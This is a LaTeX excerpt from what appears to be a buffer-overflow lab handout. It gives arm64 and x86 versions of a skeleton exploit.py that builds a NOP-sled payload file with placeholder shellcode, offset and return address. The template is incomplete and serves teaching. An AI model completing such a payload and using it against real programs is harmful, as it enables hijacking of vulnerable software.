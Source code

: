 \newcommand{\needtochange}{\ding{73} Need to change \ding{73}}


\ifdefined\arm
\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's (0xD503201F is NOP instruction in arm64)
nop = (0xD503201F).to_bytes(4, byteorder='little')
content = bytearray(517)
for offset in range(int(500/4)):
   content[offset*4:offset*4 + 4] = nop

##################################################################
# Put the shellcode somewhere in the payload
start = 0                # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00            # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

\else
\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0x00            # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address, 8 for 64-bit address
content[offset:offset + 4] = (ret).to\_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}
\fi

